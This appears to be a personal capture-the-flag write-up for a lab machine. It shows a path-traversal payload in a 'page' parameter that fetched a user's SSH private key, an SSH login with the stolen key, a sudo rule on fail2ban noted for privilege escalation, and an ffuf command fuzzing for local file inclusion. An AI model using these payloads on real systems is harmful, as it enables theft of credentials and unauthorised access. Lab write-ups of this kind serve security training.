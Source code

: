 Got the michael's id_rsa
```
0408  4 -rw-r--r-- 1 kali kali  1823 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa'
4860433  4 -rw-r--r-- 1 kali kali  1823 Oct 30 19:48 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.1'
4860406  4 -rw-r--r-- 1 kali kali   395 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.pub'
4860431  4 -rw-r--r-- 1 kali kali   395 Oct 30 19:48 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.pub.1'
4860392  0 -rw-r--r-- 1 kali kali     0 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2Fstable%2Fapache%2Fphp.ini'

```

Change the weird file name to id_rsa, and change the file permision to 600. Gained system access. 
```
└─$ ssh michael@10.10.11.166 -i id_rsa
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
michael@10.10.11.166's password: 

└─$ chmod 600 ./id_rsa                                                                 


```


Once logged in, I followed the usual Linux PE from my previous note. 
https://app.gitbook.com/s/-MdC6F2qPks25QX5I3wr/oscp_prep/3.-linux-pe
So generally, I check for services, weak file permission, sudo, cronjobs, suid/sgid, other files, then kernel exploit.  With sudo -l command, the user michael has authority to restart fail2ban service. 


```
michael@trick:~$ sudo -l

    (root) NOPASSWD: /etc/init.d/fail2ban restart

```

https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49






=================================================================
For whatever reason, ffuf didn't give me any result. 


ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://trick.htb/ -H "Host: preprod-marketing.trick.htb/index.php?page=FUZZ" -mc 200 
